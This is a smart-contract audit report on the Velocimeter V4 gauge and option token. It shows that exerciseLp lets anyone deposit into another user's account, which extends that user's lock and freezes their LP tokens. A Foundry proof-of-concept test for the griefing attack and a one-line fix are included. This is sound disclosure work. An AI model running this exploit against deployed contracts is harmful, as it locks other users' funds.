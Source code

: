 Fast Black Eel

High

# LP token can be permanently locked in the gauge

## Summary
A malicious user can permanently lock other user's LP token deposited in gauge, by depositing a very small amount on behalf of other users which will increase the lock duration of the deposited LP token, if a user wants to withdraw their locked LP tokens they would not be able to withdraw because the expiry time has been increased by malicious user.
  
## Vulnerability Detail
In `/v4-contracts/contracts/GaugeV4.sol`
```solidity
function depositWithLock(address account, uint256 amount, uint256 _lockDuration) external lock {
        require(msg.sender == account || isOToken[msg.sender],"Not allowed to deposit with lock"); 
        //...//
    }

```
`depositWithLock` only allows depsit LP tokens with `msg.sender` to their own account and `OptionTokenV4.sol` contract to depositWithLock to any account. 

In `/v4-contracts/contracts/OptionTokenV4.sol`
```solidity
function exerciseLp(
        uint256 _amount,
        uint256 _maxPaymentAmount,
        address _recipient,
        uint256 _discount,
        uint256 _deadline
    ) external returns (uint256, uint256) {
        if (block.timestamp > _deadline) revert OptionToken_PastDeadline();
        return _exerciseLp(_amount, _maxPaymentAmount, _recipient, _discount);
    }
```
There is no check present in `exerciseLp` function on `_recipient` parameter, anyone can exercise options tokens to create LP and stake in gauges with lock in anyone's account.
```solidity
function getLockDurationForLpDiscount(
        uint256 _discount
    ) public view returns (uint256 duration) {
        (int256 slope, int256 intercept) = getSlopeInterceptForLpDiscount();
        duration = _discount == 0 ? lockDurationForMaxLpDiscount : SignedMath.abs(slope * int256(_discount) + intercept);
    }
```
The `getLockDurationForLpDiscount` decides for how much duration the token will be locked in gauge based on the discount. 
```solidity
function depositWithLock(address account, uint256 amount, uint256 _lockDuration) external lock {
      //...//

        uint256 currentLockEnd = lockEnd[account];
        uint256 newLockEnd = block.timestamp + _lockDuration ; 
        if (currentLockEnd > newLockEnd) {
            revert("The current lock end > new lock end");
        } 
        lockEnd[account] = newLockEnd; // new lock set here
    }
```
Since anyone is allowed to deposit LP token in anyone's account, it can be abused by malicious user to set the discount to 20% and `exerciseLp` **(minimum deposit amount of 10wei)** and increase the lock duration to maximum of 364 days and can be repeated multiple times which will keep increasing the lock duration of that account.

## Impact
* Permanent freezing of LP tokens,the user will permanently loose access to their LP tokens.

* `depositWithLock` does not have any checks present on  maximum lock duration that can be set by the user.

## POC 
Add this test to `test/OptionTokenV4.t.sol` and run with `forge test --mt testPocLockLPTokensinGaugePermanently   -vvvv`
```solidity
    function testPocLockLPTokensinGaugePermanently() public {
        oFlowV4.setRewardsAddress(address(gauge)); //setting reward address

        address bob = address(0xb0b);
        address blackhat = address(0xb14c);

        flowDaiPair.transfer(bob, 1e18);
        vm.startPrank(bob);
        flowDaiPair.approve(address(gauge),1e18);

        // bob deposits lp in gauge with lock for 2 weeks
        gauge.depositWithLock(bob, 1e18, 2 weeks);

        console.log("lock end for bob is %s",gauge.lockEnd(bob));
        uint256 lockend_beforeAttack = gauge.lockEnd(bob);

        vm.stopPrank();

       
        FLOW.approve(address(oFlowV4), TOKEN_1);
        // mint Option token to blackhat
        oFlowV4.mint(blackhat, TOKEN_1);

        washTrades();
        vm.stopPrank();
        vm.startPrank(blackhat);
        
        DAI.mint(blackhat,TOKEN_100K);
        DAI.approve(address(oFlowV4), TOKEN_100K);

        //blackhat attacks bob and increase the lock duration.
        oFlowV4.exerciseLp(10, 1e18, address(bob),20,block.timestamp);
        vm.stopPrank();

        console.log("lock end for bob is %s",gauge.lockEnd(bob));
        assertGt(gauge.lockEnd(bob),lockend_beforeAttack);
        vm.warp(block.timestamp + 3 weeks);
        vm.expectRevert("The lock didn't expire");
        vm.prank(bob);
        gauge.withdrawAll();
        
    }
```
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L305-L314
https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L652-L716
https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/GaugeV4.sol#L443-L459
## Tool used

Manual Review


## Recommendation
* Implement check in `exerciseLp` so that `msg.sender` can deposit into their own account only.
```diff
function exerciseLp(
        uint256 _amount,
        uint256 _maxPaymentAmount,
        address _recipient,
        uint256 _discount,
        uint256 _deadline
    ) external returns (uint256, uint256) {
        if (block.timestamp > _deadline) revert OptionToken_PastDeadline();
+      require(msg.sender == _recipient , "Not allowed to deposit with lock");
        return _exerciseLp(_amount, _maxPaymentAmount, _recipient, _discount);
    }
```